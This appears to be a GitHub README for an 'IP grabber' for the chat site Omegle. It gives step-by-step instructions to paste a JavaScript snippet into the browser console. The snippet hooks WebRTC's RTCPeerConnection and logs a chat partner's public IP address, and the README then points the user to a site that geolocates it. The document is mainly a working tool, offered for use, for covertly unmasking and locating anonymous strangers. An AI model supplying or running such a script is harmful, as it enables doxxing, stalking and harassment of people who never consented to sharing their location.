 # iP Grabber For Omegle!

<p><center>On the bottom of the README.md file is there a script that you can use for omegle!</center></p>

# Install process
<ul>
    <li>
    <p>First go to https://omegle.com</p>
    <p>Then inspect the site (ctrl + shift + i)</p>
    <p>Then press "Console"</p>
    <p>Then paste this script:</p>
    
    window.oRTCPeerConnection  = window.oRTCPeerConnection || window.RTCPeerConnection

    window.RTCPeerConnection = function(...args) {
     const pc = new window.oRTCPeerConnection(...args)

    pc.oaddIceCandidate = pc.addIceCandidate

    pc.addIceCandidate = function(iceCandidate, ...rest) {
     const fields = iceCandidate.candidate.split(' ')

    if (fields[7] === 'srflx') {
    console.log('IP Address:', fields[4])
    }
    return pc.oaddIceCandidate(iceCandidate, ...rest)

    }

    return pc
    }
<p>
    If you did that press "Enter"
    Then <b>DON'T</b> close the inspect element. Just go into a chat and you see the IP
    If you want to know where the person live go to this site: https://dnschecker.org/ip-location.php?ip and paste his ip there!</p>
    </li>
    </ul>

# Special Thanks:
   <a href="https://github.com/getgaming">GitHub</a><br>
   <a href="https://youtube.com/getgamingyt">Youtube</a><br>
   <a href="https://getgaming.ml">Website</a>
